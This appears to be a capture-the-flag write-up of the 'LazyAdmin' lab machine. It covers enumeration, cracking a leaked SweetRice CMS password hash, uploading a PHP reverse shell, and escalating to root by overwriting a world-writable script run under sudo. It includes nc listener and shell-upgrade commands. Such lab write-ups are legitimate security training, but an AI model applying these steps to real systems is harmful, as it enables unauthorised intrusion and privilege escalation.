 # LazyAdmin | Wite-Up

## Enumeration

- Run nmap scan to see what ports and services are running.
    ``` 
    nmap -sC -sV 10.10.163.194
    ```
    ![](pix/nmap1.png)

- nmap shows port 22 and 80 open. SSH can't be brute forced so lets check out the website.

    ![](pix/website1.png)
    - The webpage is the default apache page. Something seems to be missing. 
    
- Using dirb, lets find some hidden directories. I used the common.txt wordlist found in kali /usr/share/wordlists/dirb/common.txt
- ```
    dirb http://<IP> <PATH TO WORDLIST>
    ```
    ![](pix/dirb.png)
- Some interesting pages were found 
    - http://<IP>/content/ shows the webpage uses SweetRice CMS
    - http://<IP>/content/as/ shows login page. admin:admin does not work.
    - http://<IP>/content/inc/ shows the directory index
    ![](pix/website2.png)
    - Inside the mysql_backup folder, there is a file called 'mysql_bakup_20191129023059-1.5.1.sql' which might contain the password for the login page.
    - the file lastest.txt says '1.5.1' which could be the CMS version

## Exploitation

- Looking the the mysql_backup file, I found a string that looks like a username and hash of a password.
    ```
    cat mysql_bakup_20191129023059-1.5.1.sql | grep 'pass'
    ```

    ![](pix/sql.png)

- Save the password hash to a txt file and run hashcat on it using rockyou.txt to perform dictionary brute force. 
    ```
    hashcat -m0 pass.txt /usr/share/    wordlists/rockyou.txt
    ```
- Hashcat shows the password is 'Password123' ....SMH could have guessed that.

    ![](pix/pass.png)

- Back at the login page to try the username and password. AND WE ARE IN. 
    ```
    username: manager
    password: Password123
    ```

- After doing some research, it looks like we can upload PHP in the 'Ads' section and pop a reverse shell by visiting that page.

- I went with the php reverse shell provided by Kali linux in ```/usr/share/webshells/php/php-reverse-shell.php```
    - Make sure to change the ip and port to your local machine.

- Copy the content of php-reverse-shell.php and paste it into the webpage. Name it whatever you want (don not add .php, it will automatically get added). Click done.
The php code gets uploaded to http://IP/content/inc/ads/shell.php

    ![](pix/shell2.png)

- On the attack machine set up a listener using the same port that you chose. 
    ``` 
    nc -lnvp 4444
    ```
- To activate the reverse shell, simply visit ```http://IP/content/inc/ads/shell.php```

- ## BAMM! got a shell
    ![](pix/shell3.png)
    
    - To upgrade the shell use the following command
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- In /home/itguy the user.txt contains the first flag.

  ![](pix/flag1.png)  



## Privilege Escalation:


- The root.txt file is in the root directory which we do not have permission to view. Time to escalate to root.

- ```sudo -l``` 
    - shows that www-data can run ```/usr/bin/perl /home/itguy/backup.pl``` without a password. 

        ![](pix/priv1.png)
- Inspecting backup.pl show that it is not writable, but it calls a script in ```/etc/copy.sh``` which has universal write permission. 
 - we can modify ```copy.sh``` script to spawn a root shell because it will be used by pear using sudo. 
    ![](pix/priv2.png)

- This machine doesn't have vim, vi, or nano.. So we can just echo our command into the file.

- ```
   echo '/bin/bash' > /etc/copy.sh
    ```

- cat /etc/copy.sh to verify then EXPLOIT

- ```
    sudo /usr/bin/perl /home/itguy/backup.pl
    ```
    ![](pix/priv3.png)

- Now that we are root, simply cat /root/root.txt for the flag

    ![](pix/priv4.png)






